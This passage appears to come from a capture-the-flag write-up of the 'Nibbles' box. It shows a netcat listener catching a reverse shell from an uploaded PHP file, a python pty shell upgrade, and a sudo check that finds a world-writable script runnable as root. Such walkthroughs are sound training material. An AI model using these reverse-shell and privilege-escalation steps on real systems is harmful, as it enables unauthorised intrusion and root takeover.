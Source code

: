 ```
$ nc -lvnp 1234
```

We need `curl` or browse to our `image.php` file to execute the reverse shell.
Now, we have a reverse shell.

The shell we have is not fully interactive, so we will upgrade our shell to a nicer shell.
We will use a python one-liner to spawn a pseudo terminal:

```
$ python 3 -c 'import pty; pty.spawn("/bin/bash")'
```

Now, what user we are?

```
$ id

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

We need to check our sudo privileges.
It is something that we should always do, but in this case with more reason, because, if you remember, there's a **sudoers misconfiguration** in this box.

```
$ sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

We can execute `/home/nibbler/personal/stuff/monitor.sh` as root without password.

If we navigate to our home `/home/nibbler` we can see two files:

* `personal.zip`
* `user.txt` (Our first flag)

If we unzip the `personal.zip` file we will find the `monitor.sh` file.

```
$ unzip personal.zip

unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh 
```

The `monitor.sh` file is a bash script and is world-writable.
This box has a **world-writable file explotation** and we can run this script as root without password.
